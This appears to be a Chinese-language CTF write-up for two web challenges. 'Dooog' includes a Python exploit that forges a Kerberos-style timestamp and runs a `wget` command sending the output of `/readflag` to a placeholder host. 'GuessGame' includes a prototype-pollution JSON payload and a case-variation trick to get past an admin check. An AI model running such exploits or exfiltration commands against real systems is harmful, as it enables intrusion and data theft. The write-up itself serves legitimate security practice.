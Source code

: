 ## Dooog
通读代码，看起来是个kerberos协议
核心就是伪造一个时间戳，绕过对cmd的验证
![dooog](/img/dooog1.png)
然后直接/readflag
exp：
```python
if __name__ == '__main__':
    username ="xishir"
    master_key = "12345678"
    cmd = "wget xxxx/`/readflag`"
    cryptor = AESCipher(master_key)
    authenticator = cryptor.encrypt(json.dumps({'username':username, 'timestamp': int(time.time())}))
    res = requests.post('http://121.37.164.32:5001/getTGT', data={'username': username, 'authenticator': base64.b64encode(authenticator)})
    print res.text
    session_key, TGT = cryptor.decrypt(base64.b64decode(res.content.split('|')[0])), res.content.split('|')[1]
    cryptor = AESCipher(session_key)
    authenticator = cryptor.encrypt(json.dumps({'username': username, 'timestamp': int(time.time())-61}))
    res = requests.post('http://121.37.164.32:5001/getTicket',  data={'username': username, 'cmd': cmd, 'authenticator': base64.b64encode(authenticator), 'TGT': TGT})
    print res.text
    client_message, server_message = res.content.split('|')

    session_key = cryptor.decrypt(base64.b64decode(client_message))
    
    cryptor = AESCipher(session_key)
    authenticator = base64.b64encode(cryptor.encrypt(username))
    res = requests.post('http://121.37.164.32:5002/cmd', data={'server_message': server_message, 'authenticator': authenticator})
```


## GuessGame
http://121.37.179.47:8081/static/app.js 有后端源码

用`ADmin888`大小写绕过admin的检查，
merge存在原型链污染，可以把config.enableReg改成true，
构造
```
{"user":{"username":"ADmin888","__proto__": {"enableReg": true}}}
```
然后可以控制进行一次正则匹配，因为没有任何回显，猜测是要redos进行延时盲注